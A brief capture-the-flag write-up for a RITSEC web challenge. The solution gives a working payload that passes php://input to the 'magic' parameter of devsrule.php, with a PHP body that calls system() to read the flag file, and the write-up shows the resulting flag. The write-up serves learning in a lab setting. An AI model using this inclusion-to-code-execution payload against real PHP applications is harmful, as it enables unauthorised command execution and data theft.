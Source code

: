 # Description
```
fun.ritsec.club:8007

Author: jok3r
```
This challenge was built on "The Tangled Web"

# Solution
In the Stars.html file there was an additional hint to check out devsrule.php and an order to do fancy stuff there.
> Getting remote access is so much work. Just do fancy things on devsrule.php 

There we find another message mentioning that the parameter was magic. Doing some fancy stuff resulted in the following winning payload

```http
GET /devsrule.php?magic=php://input HTTP/1.1
Host: fun.ritsec.club:8007
Connection: close
Content-Length: 43
 
<?php system(“cat /home/joker/flag.txt”);?>
```
This GET request resulted in 
>  RITSEC{WOW_THAT_WAS_A_PAIN_IN_THE_INPUT} 
